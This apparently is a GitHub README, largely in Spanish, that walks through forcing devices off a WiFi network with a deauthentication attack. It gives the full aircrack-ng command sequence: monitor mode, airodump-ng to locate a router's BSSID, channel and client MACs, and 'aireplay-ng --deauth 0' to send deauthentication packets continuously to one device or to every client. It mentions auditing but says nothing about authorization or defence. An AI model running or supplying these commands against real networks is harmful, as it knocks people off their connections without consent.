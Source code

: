 ﻿

# Forcing a device to disconnect from WiFi using a deauthentication attack

***A deauthentication attack is a type of attack which targets the communication between router and the device. Effectively disabling the WiFi on the device.***

> Asegurate estar como usario *root*. Ahora ejecuta el sig comando.

```bash
apt install aircrack-ng
```

>Verificar cual es nuestra interfaz con el sig comando'. 
```bash
iwconfig
```

> El sig comando se utiliza para iniciar el modo monitor en la interfaz inalámbrica especificada (en este caso, `wlan0` pero puede cambiar segun la interfaz del hardware). El modo monitor permite que la tarjeta de red capture todos los paquetes en la frecuencia seleccionada, lo cual es útil para tareas de auditoría de redes inalámbricas.**Sin comillas simples**
```bash
airmon-ng start 'wlp0s20f3'
```
> capturar y mostrar información sobre las redes inalámbricas en tu área. **Sin comillas simples**
```bash
airodump-ng 'wlan0mon'
```

> Encontrar los dispositivos que se encuentren en la red. 
> bssid: dirección MAC del router
> channel: El canal en el que opera el router.

```bash
airodump-ng wlan0mon --bssid [routers BSSID here] --channel [routers channel here]
```

### Explicacion del comando anterior.
-   `airodump-ng`: La herramienta de captura de paquetes.
-   `wlan0mon`: La interfaz inalámbrica en modo monitor.
-   `--bssid 00:11:22:33:44:55`: Filtra los paquetes para capturar solo los asociados con el BSSID especificado.
-   `--channel 6`: Limita la captura a los paquetes en el canal especificado.

Ya conociendo la MAC y el canal del dispositivo es momento de atacar 

> El comando `aireplay-ng --deauth` se utiliza para enviar paquetes de desautenticación a una red inalámbrica, lo cual puede desconectar dispositivos específicos o todos los dispositivos de esa red.
```bash
aireplay-ng --deauth 0 -c [DEVICES MAC ADDRESS] -a [ROUTERS MAC ADDRESS] wlan0mon
```
### Explicacion del comando anterior.
-   `--deauth [number of deauth packets]`: Especifica el número de paquetes de desautenticación a enviar. Usar `0` enviará paquetes de desautenticación de manera continua.
-   `-c [target device MAC address]`: La dirección MAC del dispositivo que deseas desconectar. Si no especificas esto, se intentará desconectar todos los dispositivos de la red.
-   `-a [AP MAC address]`: La dirección MAC del punto de acceso (router).
-   `[interface]`: La interfaz en modo monitor (por ejemplo, `wlan0mon`).

> [!IMPORTANT]
> Si no especificas la `-c [target device MAC address]`, se intentará desconectar todos los dispositivos de la red.

### Restablecer la Interfaz de red

```bash
airmon-ng stop 'wlan0mon'
```
Esto nos ayudara a restablcer nuesta tarjeta de red normalmente sin tener que hacer un reboot. 

#### Referencias
https://hackernoon.com/forcing-a-device-to-disconnect-from-wifi-using-a-deauthentication-attack-f664b9940142

